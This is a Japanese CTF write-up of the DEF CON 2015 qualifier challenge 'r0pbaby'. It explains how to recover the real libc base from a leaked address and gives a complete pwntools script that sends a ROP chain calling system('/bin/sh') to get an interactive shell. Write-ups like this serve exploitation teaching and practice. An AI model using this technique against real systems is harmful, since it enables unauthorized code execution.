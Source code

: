 ```yaml
---
layout: post
alias: "/blog/2016/01/07/defcon-qualifier-ctf-2015-r0pbaby/"
date: 2016-01-07T00:49:08+09:00
tags: [ "ctf", "writeup", "pwn", "rop" ]
---
```


# DEF CON Qualifier 2015: r0pbaby

## [Baby's First 1: r0pbaby](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)

>   r0pbaby\_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436 [Download]()

起動すると以下のようにmenuが現れ色々と親切にしてくれる問題。
ただしその分asmは読みにくい。

``` sh
$ ./r0pbaby

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 1
libc.so.6: 0x00007EFE0BB324D0
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2
Enter symbol: system
Symbol system: 0x00007EFE0B3DA890
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 8
DDDDDDDD4
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Exiting.
```

ただし、表示されるのは中で`dlopen`をして得られた`libc.so.6`のアドレスであるため、これの上に飛ぼうとするとsegvする。
`dlopen`されたlibcと本来のlibcのアドレスの差は固定のようなので、これを元に本来のlibcのアドレスを求める。

`libc.so.6`が与えられない[^1]が、おそらくこれは表示させたシンボルのアドレスから[libcdb.com](http://libcdb.com/)などでlibcを検索すればよい。
手元で動かしたものから検索しても引っかからなかったが、これはosがarchであるから登録がなされていないのだとして無視した。[^2]

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
# p = process('./r0pbaby')
p = remote('localhost', 8022)

p.sendlineafter(': ', '1')
p.recvuntil(': ')

offset = 0x7974d0 # difference between dlopen-ed libc and original libc, from (attached) gdb
libc = int(p.recvline(keepends=False), 16) - offset

# on my /usr/lib/libc.so.6
pop_rdi_ret = 0x21012
system = 0x3f890
bin_sh = 0x1653b8

payload = ''
payload += p64(0) # pop ebp
payload += p64(libc + pop_rdi_ret) # ret
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendlineafter(': ', '3')
p.sendlineafter(': ', str(len(payload)))
p.send(payload)

p.sendline('4')

p.sendline('ls')
p.interactive()
```

[^1]: ように見える
[^2]: 詳しくないので正直少し不安
